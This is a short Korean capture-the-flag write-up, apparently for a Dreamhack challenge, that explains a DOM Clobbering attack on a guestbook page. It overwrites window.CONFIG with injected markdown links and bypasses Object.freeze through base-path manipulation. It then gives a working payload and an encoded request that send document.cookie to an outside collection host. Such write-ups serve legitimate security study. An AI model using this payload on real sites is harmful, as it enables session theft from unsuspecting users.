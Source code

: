 ## 풀이

DOM Clobbering을 활용한 문제
DOM Clobbering은 DOM에서 사용중인 global 변수를 덮어쓰는 공격 기법이다.
기본적으로 사용하고 있는 window.CONFIG 와 같은 변수를 DOM에 있는 element로 덮어쓰는 방식이다.

[참고링크](https://intadd.tistory.com/143)

해당 기술을 활용하여 CONFIG.main, CONFIG.debug를 덮어쓸 수 있고,
그러면 페이지 스크립트에서 window.CONFIG를 불러올때 location.href를 실행시킬 수 있고,
이를 활용해 자동으로 쿠키를 탈취하는 페이로드를 작성할 수 있다.

이때 기본적으로 작성된 config.js에서 Object.freeze를 하고 있는데,
이는 base 경로를 조작하는 것으로 우회할 수 있다.
로컬호스트 입장에서 config.js를 찾으려 할 때 해당 경로에 없기 때문에 우회 가능하다.

```markdown
[](#' id='CONFIG' name='debug)
[](#' id='CONFIG)
[](javascript:location.href="https://uxqetzz.request.dreamhack.games/memo?memo="+document.cookie;' id='CONFIG' name='main)

/GuestBook.php/asdf?content=%5B%5D%28%23%27+id%3D%27CONFIG%27+name%3D%27debug%29%0D%0A%5B%5D%28%23%27+id%3D%27CONFIG%29%0D%0A%5B%5D%28javascript%3Alocation.href%3D"https%3A%2F%2Fuxqetzz.request.dreamhack.games%2Fmemo%3Fmemo%3D"%2Bdocument.cookie%3B%27+id%3D%27CONFIG%27+name%3D%27main%29
```